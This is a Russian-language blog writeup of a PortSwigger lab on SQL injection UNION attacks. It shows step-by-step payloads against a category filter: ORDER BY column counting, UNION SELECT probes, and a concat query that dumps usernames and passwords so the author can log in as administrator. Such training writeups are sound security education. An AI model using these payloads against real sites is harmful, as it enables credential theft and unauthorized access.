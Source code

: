 ```yaml
---
title: "SQL injection UNION attack retrieving multiple values in a single column"
date: 2025-06-19
tags: [sqli, writeup]  
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-retrieving-multiple-values-within-a-single-column/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column"
---
```


Пост из пака **union_sqli**.

## Scope

```
https://0a3300e7041babb2811b346f0068004e.web-security-academy.net/
```

В данной лабе есть уязвимый к **SQL injection** фильтр категории. В БД есть таблицы с именам `users` и колонками `username` и `password`. Для решения лабораторной работы нужно выполнить атаку с помощью `SQL`-инъекции, войдя под пользователем `administrator`.


## Solution

Из условия лабы известно, что уязвимость находится в фильтре категорий. Поэтому возьму `URL` с фильтром `Accessories`:

```
https://0a3300e7041babb2811b346f0068004e.web-security-academy.net/filter?category=Accessories
```


Следующим моим шагом будет подбор обрамления. Предположу, что запрос выглядит так:

```sql
SELECT * FROM table WHERE category = 'Accessories'
```

Тогда пейлоад должен иметь следующий вид:

```
Accessories' and false-- -
```

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-retrieving-multiple-values-in-a-single-column/1.png){: height="200" .align-center}

Выдало пустую страницу без ошибок, значит в качестве обрамеления используется `'`.


Далее узнаю количество колонок в запросе с помощью `ORDER BY`:

```
Accessories' ORDER BY 10-- -Error
Accessories' ORDER BY 5-- - Error
Accessories' ORDER BY 3-- -Error
Accessories' ORDER BY 2-- - OK
```

Значит у нас используется 2 колонки в запросе. Попробую использовать `UNION` для отображения информации:

```
Accessories' UNION SELECT 1, 2-- -Error
Accessories' UNION SELECT 1, '2'-- -OK
```

Я получил вот такое отображение на страницу:

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-retrieving-multiple-values-in-a-single-column/2.png){: height="200" .align-center}

Значит отображается информация только из второй колонки, а мне нужно получить `login` и `password` из таблицы `table`. Это можно сделать с помощью двух запросов, либо же использовать конкатенацию строк с помощью `concat`. Мой пейлоад будет иметь следующий вид:

```
Accessories' UNION SELECT 1, concat('1', '2')-- -
```

А вот так это отображается на странице:

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-retrieving-multiple-values-in-a-single-column/3.png){: height="200" .align-center}

Теперь попробую получить нужные данные. Я добавил условие `0=1`. Теперь у меня отображается только вторая часть моего запроса, то есть логины и пароли:

```
Accessories' and 0=1 UNION SELECT NULL, concat(username, ':' ,password) FROM users-- -
```

Я получил следующий вывод:

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-retrieving-multiple-values-in-a-single-column/4.png){: height="200" .align-center}

Теперь зайду в аккаунт под пользователем `administrator`:

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-retrieving-multiple-values-in-a-single-column/5.png){: height="200" .align-center}

Победа)
